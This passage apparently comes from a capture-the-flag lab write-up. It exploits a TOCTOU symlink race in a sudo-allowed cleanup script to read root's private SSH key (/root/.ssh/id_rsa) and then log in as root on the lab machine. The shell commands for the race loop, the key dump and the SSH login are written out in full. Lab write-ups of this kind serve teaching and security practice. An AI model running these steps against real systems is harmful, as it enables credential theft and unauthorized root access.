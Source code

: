     -   The script only prints file contents if `CHECK_CONTENT` is `true`.
    -   The race condition occurs as the script moves the link, and the infinite loop overwrites the quarantined symlink target to the sensitive file.

Success!!! So we can now read root &amp; etc files using this process.

-   {{< figure src="/ox-hugo/2025-05-19-200210_.png" >}}


#### Exploiting The TOCTOU Vulnerability To Get The Root SSH Key {#exploiting-the-toctou-vulnerability-to-get-the-root-ssh-key}

As we have now confirmed the vulnerability, we can target the root SSH private key.

1.  **Create a throw-away symlink again:**



```shell
ln -s fake key.png
```

1.  **In the second terminal, loop to overwrite the quarantine symlink pointing to root's private key:**



```shell
while true; do ln -sf /root/.ssh/id_rsa /var/quarantined/key.png; done
```

1.  **In the first terminal, set the env variable and run the script:**



```shell
export CHECK_CONTENT=true; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh ./key.png
```

Success! We can see the root SSH private key dumped.

-   {{< figure src="/ox-hugo/2025-05-19-200854_.png" >}}

Save the key locally and secure its permissions:

```shell
sudo chmod 600 root_key
```

Connect to the host as root using the stolen key:

```shell
ssh -i root_key root@10.129.151.29
```

-   {{< figure src="/ox-hugo/2025-05-19-201131_.png" >}}

Let's get our flag:

-   {{< figure src="/ox-hugo/2025-05-19-201231_.png" >}}


## 4. Persistence: {#4-dot-persistence}
